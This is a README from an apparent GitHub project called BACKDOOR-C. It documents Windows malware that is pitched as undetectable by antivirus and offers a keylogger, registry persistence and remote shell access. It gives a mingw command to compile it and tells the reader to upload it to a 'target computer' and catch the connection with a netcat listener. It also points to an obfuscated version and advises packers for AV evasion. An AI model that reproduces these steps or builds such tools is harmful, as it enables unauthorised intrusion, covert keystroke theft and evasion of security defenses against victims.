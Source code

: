 # BACKDOOR-C

![alt text](https://github.com/leo9722/backdoor-c/blob/master/img/backdoor.png)

 Project to create a backdor undetectable to antivirus software  (before passage under total virus)

# INSTALLATION

To use the backdoor you can use the following command to compile it:

`i686-w64-mingw32-gcc -o test.exe back.c -lwsock32 -lwininet`

Replace test.exe by the name you want to call your executable file and your backdoor will be create  !

Then upload the backdoor on the target computer

Launch a listner on your computer using the port you choose:

```bash
example with netcat  : nc -nlvp 4444
```

Finally launch your executable file and you will see a response of your backdoor on yout listener ! 

# The project :

The backdoor is functional under Windows and includes a persistent mode, a keylogger and a shell access.

I also put a 2nd version who is the same backdoor but obfuscate.

if you using packer you may have a better resistance to A.V !

## Command to use it 

- cd : to move another directory when you gain access to your shell
- persist : to use the persist mode and create an HKEY_CURRENT_KEY
- keylog : ton activate the keylogger
